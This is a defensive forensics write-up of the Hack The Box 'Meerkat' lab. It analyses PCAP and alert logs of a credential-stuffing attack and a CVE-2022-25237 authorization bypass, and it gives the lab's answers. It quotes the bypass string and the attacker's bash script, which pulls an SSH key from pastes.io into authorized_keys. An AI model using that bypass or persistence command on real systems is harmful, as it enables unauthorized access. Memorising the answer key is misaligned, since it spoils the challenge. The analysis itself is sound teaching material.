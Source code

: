 ```yaml
---
title: "HTB Sherlock: Meerkat"
seoTitle: "HTB Sherlock: Meerkat Write-up"
seoDescription: "PCAP analysis with Wireshark and TShark combined. JSON parsing with jq CLI."
datePublished: Fri Mar 22 2024 08:00:09 GMT+0000 (Coordinated Universal Time)
cuid: clu2dfk5t002809l620qcfibh
slug: htb-sherlock-meerkat
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1710798321421/3ec8aadf-489f-4a91-89cd-21fb592efb24.png
tags: soc, ethical-hacking, pcap, dfir

---
```


<div data-node-type="callout">
<div data-node-type="callout-emoji">💡</div>
<div data-node-type="callout-text">This write-up is a part of the <a target="_blank" rel="noopener noreferrer nofollow" href="https://blog.cyberethical.me/series/htb-sherlocks" style="pointer-events: none">HTB Sherlocks series</a>. Sherlocks are investigative challenges that test defensive security skills. I encourage you to try them out if you like digital forensics, incident response, post-breach analysis and malware analysis. <a target="_blank" rel="noopener noreferrer nofollow" href="https://affiliate.hackthebox.com/sherlocks2352" style="pointer-events: none">Are you ready to start the investigation?</a></div>
</div>

# Incident Details

**Name**: [Meerkat](https://affiliate.hackthebox.com/sherlocks-meerkat)*(Retired)*  
**Category**: SOC  
**Difficulty**: Easy ([Solved](https://labs.hackthebox.com/achievement/sherlock/555018/552))

> As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

%%[support-cta] 

# Evidences

01: ZIP archive, password protected (`hacktheblue`)

```plaintext
$ meerkat.zip
a76867ade304c8081e2023cbf2977c65e8c146180b2e0ff760e4059d042c2a5a
```

02: JSON file

```plaintext
$ meerkat.zip/meerkat-alerts.json
012aa4e8aae5d500c001510d6e65567eb0cdbfffe2dab9a119b66f7770c222be
```

03: pcapng capture file

```plaintext
$ meerkat.zip/meerkat.pcap
aa3838dbd634f9798d1e9505d243a4fee1d340d6e25e2f0c9648dd64e2178dbf
```

# Analysis

In this scenario we have 10 questions to answer.

1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
    

```plaintext
$ cat meerkat-alerts.json | jq .[].alert.signature | sort | uniq > alerts.sorted.unique
```

I'm assuming the application in question is the mentioned Business Management Platform. There are couple lines containing same name (blurred):

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710743537112/5a82c238-76c2-4b2a-b66f-c524ed698af5.png align="center")

2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
    

Browsing the logs I can see the multiple alerts for "Default User Login Attempt" and "python-requests".

**Answer**: `Credential Stuffing`

3. Does the vulnerability exploited have a CVE assigned - and if so, which one?
    

Clear in the logs.

**Answer**: `CVE-2022-25237`

4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?
    

CVE-2022-25237 exploit is performed by appending `;i18ntranslation` or `/../i18ntranslation/` to the end of a URL, so I'm opening `meerkat.pcap` in Wireshark. Alerts indicate that Credential Stuffing was performed from 138.199.59.221 to 172.31.6.44. Then I just looked in the requests to identify which of two strings was used.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710717172821/12b558cc-75d2-4ca2-a44f-045b91f07a33.png align="center")

**Answer**: `;i18ntranslation`

5. How many combinations of usernames and passwords were used in the credential stuffing attack?
    

Now let's use commandline `TShark` to filter and format output so that we have easier way to answer

```plaintext
$ tshark -r meerkat.pcap -2 -R "http.request.full_uri contains loginservice" -T fields -e "tcp.segment_data" | sort | uniq |  xxd -p -r
```

Pass `meerkat.pcap` file to `tshark`, filter packets by only those where request URI contains `loginservice`, show only single field - `tcp.segment_data` (that holds POST body), then sort those values and output unique values to `xxd` tool that will output in ASCII format.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710717214399/8d3e82d2-2971-489a-a25e-971ea13d1ae4.png align="center")

Unfortunately I was not able to break the lines after xdd so I've done that in the text editor. There are 57 unique combinations, one of which (`username=install&password=install`) is not a part of credential stuffing.

**Answer**: `56`

6. Which username and password combination was successful?
    

Search in Wireshark for the response that sets "JSESSIONID" cookie, then follow the HTTP stream. See what credentials were used.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710743779703/34841e69-09fa-44b6-8918-aec9701346d9.png align="center")

7. If any, which text sharing site did the attacker utilise?
    

This time I was lucky becasue the answer was in the previous screen/filter.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710717254541/da2f1a13-cb14-4cd8-8ec3-7e04184bd6b9.png align="center")

**Answer**: `pastes.io`

Bonus: contents of the reqested URLs are still active and contains scripts that adds SSH key to the `authorized_keys` collection and restarts SSH daemon.

8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
    

From the Bonus section of the last question - content of the first script:

```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

**Answer**: `hffgra4unv`

9. Can you confirmed the file modified by the attacker to gain persistence?
    

Again, answer in the above script

**Answer**: `/home/ubuntu/.ssh/authorized_keys`

10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
    

Navigate to [MITRE ATT&CK®](https://attack.mitre.org/) -&gt; Persistence -&gt; SSH Authorized Keys.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710717316679/6b54718a-655d-4c97-b05a-7db92b0e3ccc.png align="center")

**Answer**: `T1098.004`

# Data Recovery

None required.

# Lessons Learned

* `jq` for easier querying JSON data
    
* `tshark` for filtering and parsing PCAP files
    

# Additional readings

%%[follow-cta] 

* [NIST Computer Security Incident Handling Guide](https://www.nist.gov/privacy-framework/nist-sp-800-61)